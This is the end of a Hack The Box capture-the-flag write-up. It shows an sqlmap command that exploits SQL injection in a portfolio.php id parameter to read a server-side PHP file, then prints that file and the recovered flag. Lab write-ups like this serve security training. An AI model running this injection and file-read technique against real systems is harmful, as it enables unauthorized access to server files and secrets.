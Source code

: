 ```bash
            </div>
        </form>
    </div>    
</body>
</html>
```

I checked the content of */administrat/panel.php*, and boom there it was the flag:

```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php --batch
$ cat ~/.sqlmap/output/206.189.17.51/files/_var_www_html_administrat_panel.php 

<?php
// Initialize the session
session_start();
 
// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: index.php");
    exit;
}
?>
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
  <link rel="icon" href="../favicon.ico" type="image/x-icon">
    <style type="text/css">
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <div class="page-header">
        <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
<br><br><br>
        <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
    </div>
</body>
</html>
```


# References
- [1] https://tools.kali.org/web-applications/wfuzz
- [2] https://github.com/danielmiessler/SecLists
- [3] http://sqlmap.org/